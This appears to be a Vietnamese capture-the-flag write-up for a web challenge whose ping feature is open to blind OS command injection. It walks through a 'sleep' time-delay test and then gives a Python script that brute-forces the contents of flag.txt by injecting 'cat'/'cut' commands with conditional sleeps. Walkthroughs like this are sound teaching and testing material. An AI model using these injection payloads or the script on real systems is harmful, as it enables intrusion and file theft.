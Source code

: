 ## Task
![](https://hackmd.io/_uploads/H1n58dRoh.png)

Qua việc nhìn tên đề bài mình có thể đoán được rằng bài này sẽ được khai khác bằng **command injection**

# Recon

![](https://hackmd.io/_uploads/rk6ND_Rj3.png)

- Ở ngay trang đầu tiên ta có thể thấy được rằng trang web này sẽ cho phép người dùng kiểm tra kết nối với một trang web sử dụng lệnh **ping** nhưng khi ta thử

![](https://hackmd.io/_uploads/BkGAwOAj2.png)

- Vậy ta có thể thấy rằng thay vì in ra output như bình thường thì nó lại in ra thông báo hệ thống đang được bảo trì và đang ngắt kết nối mạng nhưng khi ta thử những payload khác
![](https://hackmd.io/_uploads/HkWL__Aon.png)
- Ta có thể thấy được rằng các payload không hề bị filter nên là ta có thể thoải mái thực hiện các payload khác nhau nhưng không nhìn thấy kết quả vậy ta phải làm thế nào
- Khi mở source code lên ta có thể thấy bất kể chúng ta làm gì đi chăng nữa thì ta vẫn sẽ nhận được dòng thông báo là đang bảo trì server do biến output đã bị thay đổi khi kết thúc hàm **index()**
![](https://hackmd.io/_uploads/SyQpa_Rsn.png)

# Exploit
- Đầu tiên ta phải có một cách nào để chắc chắn rằng mọi câu lệnh ta chạy vào bên trong đều được thực hiện nhưng làm thế nào để biết được rằng các câu lệnh đã được chạy và được thực thi? Đây chính là lúc mà ta thực hiện [**Blind OS command injection with time delay**](https://www.youtube.com/watch?v=KbWn4L2dcHU&ab_channel=RanaKhalil) 
- Khái quát một chút ta sẽ sử dụng độ trễ của server phản hồi để chắc chắn rằng chúng ta đang thực hiện một câu lệnh "OS"
- Đầu tiên ta sẽ thử với payload như sau```hostname=; sleep 5;``` sử dụng burp suite để có thể quan sát kỹ hơn 
![](https://hackmd.io/_uploads/HyfmoOCoh.png)
- Ta có thể thấy request bị trả về với khoảng thời gian là  ![](https://hackmd.io/_uploads/SyO_iu0o3.png)
- Vậy làm thế nào để có thể đọc được file flag.txt đây ta sẽ viết một file script để lấy flag nói cách khác chính là **bruteforce** 
- Để có thể build được một file script thì ta cần hai thứ thứ nhất chính là làm thế nào để biết được các ký tự có trong file flag.txt sử dụng câu lệnh **OS** thứ hai làm thế nào để có thể in ra được ký tự đó và nhận về kết quả cuối cùng
- Ta sẽ sử dụng lệnh **cut** và lệnh **cat** để có thể làm được điều đó
![](https://hackmd.io/_uploads/HyHGpuAo2.png)
- Câu lệnh này có nghĩa là đọc file **api.py** rồi cut lấy ký tự đầu tiên của file **api.py**
- Vậy là ta có cách để có thể lấy được ký tự đầu tiên của file giờ là làm thế nào để có thể in nó ra một cách chính xác và sử dụng time delay để lấy được flag
- Nhưng như ta đã biết việc in ra kết quả của biến output là không thể khi mà biến output đã biến đổi thành đoạn văn bản ta không cần vậy làm thế nào để có thể chạy được script đây
- Ta đến hướng thứ hai chính là việc sử dụng **if else** trong bash để có thể thứ nhất là so sánh với ký hiệu được **cat** ứng với ký tự gì trong bản chữ cái và ta sẽ sử dụng câu lệnh sau
![](https://hackmd.io/_uploads/HkWLfKAjn.png)
- Ta có thể hiểu câu lệnh trên đang lấy ký tự đầu rồi so sánh với chữ "i" nếu giống nhau thì in ra 'same' nếu không thì in ra 'not same' vạy nếu như ta thay bằng sleep thì sao nếu như giống thì sleep 2 giây không giống thì không sleep
- Vậy giờ khi đã có trong tay hướng đi sao ta không bắt đầu vào code nhỉ?
```python=
import requests
import time 

CHARSET = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_.{}-' # dùng để bruteforce

URL = 'http://34.130.180.82:59119/' # url của đề bài

FLAG = ''

proxies={"http":"http://127.0.0.1:8080"} #localhost

for index in range(1,50):
    print("[DEBUG] Đang bruteforce kí tự thứ ", index)
    for c in CHARSET:
        # Đây là payload exploit
        # Nếu đúng thì tui cho nó ngủ 2s
        # Nếu sai thì không ngủ
        INJECT = "; cmd=`cat flag.txt | cut -c {vitri}`; if [ $cmd = '{bruteforce}' ]; then sleep 2; else sleep 0; fi; #".format(
            vitri=index,
            bruteforce=c
        )
        # Sử dụng phương thức POST để có thể gửi dữ liệu đến url
        r = requests.post(URL, {'hostname': INJECT},proxies=proxies)
        thoi_gian_phan_hoi = r.elapsed.total_seconds()
        # Thì khi kết quả HTTP trả về, nó sẽ lưu vào .text của biến r
        #print("Tui đang thử kí tự thứ ",index," nè: ", c, "(time:",thoi_gian_phan_hoi,")")
        if thoi_gian_phan_hoi > 2:
            FLAG += c
            print("Tìm ra kí tự thứ ", index, "là ", c, "(FLAG:",FLAG,")")
            break

```
# Flag
![](https://hackmd.io/_uploads/HyH2mKAoh.png)

